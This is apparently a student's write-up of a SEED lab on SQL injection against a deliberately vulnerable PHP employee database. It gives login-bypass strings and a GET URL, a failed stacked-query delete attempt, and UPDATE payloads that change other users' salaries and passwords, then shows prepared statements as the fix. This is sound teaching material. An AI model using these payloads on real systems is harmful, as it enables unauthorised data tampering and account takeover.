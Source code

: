 # Lab 5 - SQL Injection Attack

## Task 1: Get Familiar with SQL Statements

```console
mysql> select * from credential where name = 'alice';
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)

```

## Task 2: SQL Injection Attack on SELECT Statement

### Part 2.1: SQL Injection Attack from webpage.

By appending the username with `' #` the the password check is bypassed. The # is to make SQL believe the rest of the code is a comment.

### Part 2.2: SQL Injection Attack from command line.

The username and password are sent as simple params using a simple GET method. Hence `http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+%23`is sufficient to get the result.

### Part 2.3: Append a new SQL statement.

To perform this, one would write a login statement that looked something like:

```
' or true; delete from credential where name = 'Alice' #
```

However this returns: `There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'delete from credential where name = 'Alice' #' and Password='da39a3ee5e6b4b0d325' at line 3]\n`.

This is because PHP doesn't allow multiple statements.

## Task 3: SQL Injection Attack on UPDATE Statement

### Part 3.1: Modify your own salary

`', salary = "39999" where eid = "10000" #`

### Part 3.2: Modify other people’ salary

`', salary = "1" where name = "boby" #`

### Part 3.3: Modify other people’ password

SHA1 of `123`= `40bd001563085fc35165329ea1ff5c5ecbdbbeef`

`', password = "40bd001563085fc35165329ea1ff5c5ecbdbbeef" where name = "boby" #`

## Task 4: Countermeasure — Prepared Statement

Old

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

New

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name = ? and password = ? ");
$stmt->bind_param("ss", $name, $Password); $stmt->execute();
$stmt->bind_result($bind_id, $bind_name, $bind_eid, $bind_salary, $bind_birth, $bind_ssn, $bind_address, $bind_email, $bind_nickname, $bind_Password); $stmt->fetch();
```

Old

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential
    SET nickname=’$input_nickname’, email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’
    WHERE ID=$id;";
$conn->query($sql);
```

New

```php
$hashed_pwd = sha1($input_pwd);
$stmt = $conn->prepare("UPDATE credential
    SET nickname=?, email=?, address=?, Password=?, PhoneNumber=?
    WHERE ID=?");
$stmt->bind_param("sssssi", $bind_nickname, $bind_email, $bind_address, $hashed_pwd, $bind_phoneNumber, $bind_id);
$stmt->execute();
```

When the code is updated to prepared statement it is no longer possible to inject SQL.

